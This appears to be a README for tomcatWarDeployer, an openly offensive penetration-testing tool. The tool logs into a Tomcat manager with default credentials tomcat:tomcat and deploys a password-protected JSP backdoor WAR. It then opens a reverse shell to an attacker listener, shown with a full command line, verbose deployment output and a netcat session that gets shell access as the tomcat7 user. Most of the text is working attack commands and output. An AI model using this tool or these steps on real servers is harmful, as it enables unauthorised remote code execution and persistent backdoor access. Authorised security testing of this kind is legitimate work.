 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

https://github.com/mgeeky/tomcatWarDeployer

-f myshell.war
允许自定义war包


user$ python tomcatWarDeployer.py -C -x -v -H 192.168.56.101 -p 4545 -n shell 192.168.56.100:8080

    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.101:4545.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for shell WAR at: "/tmp/tmpzndaGR"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/shell.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 541) (out= 254)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1597)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpzndaGR
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "shell" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/shell/"
DEBUG: Succeeded.
DEBUG: Deploying application: shell from file: "/tmp/shell.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpzndaGR"
DEBUG: Succeeded, invoking it...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/shell/"
DEBUG: Adding 'X-Pass: b8vYQ9EU7suV' header for shell functionality authentication.
WARNING: Set up your incoming shell listener, I'm giving you 3 seconds.
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/shell/
INFO: Happy pwning, here take that password for web shell: 'b8vYQ9EU7suV'
```

Which will result in the following JSP application accessible remotely via WEB:
![JSP backdoor gui](screen1.png)

As one can see, there is password needed for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.

Also, this particular example **performs reverse shell popping** by connecting here to the *192.168.56.101:4545*. 
There one can observe:

```
user $ nc -klvp 4545
listening on [any] 4545 ...
192.168.56.100: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.100] 44423
id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)
```

Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 

### TODO

* ~~Implement bind & reverse tcp payload functionality~~ as well as some pty to interact with it
* Finish implementing noconnect and connect functionality
* Test it on tomcat8


